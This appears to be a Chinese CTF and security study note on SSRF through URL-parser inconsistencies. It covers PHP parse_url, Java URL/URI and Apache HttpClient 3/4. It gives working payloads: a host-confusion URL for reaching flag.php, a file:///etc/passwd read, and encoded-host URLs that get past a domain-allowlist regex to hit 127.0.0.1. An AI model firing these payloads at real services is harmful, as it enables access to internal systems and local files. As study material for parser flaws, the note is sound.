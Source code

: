 直接访问123.57.254.42/flag.php提示error ip，我们需要ssrf，但是有host检测，利用parse_url的漏洞混淆一下host

```
/?url=123.57.254.42://ctf.pediy.com/../flag.php
```

原理分析参见[这篇文章](https://toutiao.io/posts/kuvr3yy/preview)，对于`123.57.254.42://ctf.pediy.com`这样的特殊url，会被parse_url识别host为后者，但被curl实际访问时会判断前者为host

## Java

Java有new URL和new URI，后者更普遍

### HttpURLConnection

- www.baidu.com://www.qq.com:8080/sss

URL报错无法识别protocol，URI可以识别，详见[这篇文章](https://www.cnblogs.com/throwable/p/9740425.html)

- http://www.baidu.com@www.xcao.vip:80@taobao.com

host被解析为null且无法请求成功

- http://127.0.0.1\@www.xcao.vip/file/flag.php

host被解析为后者，但getUserInfo的结果（浏览器解析）是前者，可能导致xss

- url:file:///etc/passwd?a=123

URL可以正常读取文件

### HttpClient

- http://www.xcao.vip\www.baidu.com
- http://www.xcao.vip\@www.baidu.com

均失败

- http://www.baidu.com@www.xcao.vip@www.qq.com

httpclient4会识别为后者，和浏览器、URL 类以及 pase_url 都不同

httpclient3会报错，端口转化错误

- http://127.0.0.1:80.xcao.vip/file/flag.php

httpclient4将会访问127.0.0.1:80/file/flag.php，原因是为了容错，80后面的非数

字会被丢弃，并且 host 会做一次urldecode，意思是http://127.0.0.1%3a80.xcao.vip/file/flag.php这种连接也是合法的

- http://127.0.0.1%253a80%253f.xcao.vip/file/flag.php

httclient3和4都会认为访问的是127.0.0.1:80/file/flag.php，原因是httpclient3会对截取的 host 部分url解码，然后再做一次urlpase，得到 host，这样就可以绕过诸如

```reg
/^(http|https):\/\/([^\/\?#]+\.)(baidu\.com)(\/|\?|#|$)/
```

这样的正则，某些场景下造成 SSRF 漏洞

或者如果用URL类来解析URL连接连接是否合法后再发送HttpClient请求，会存在被绕过的风险
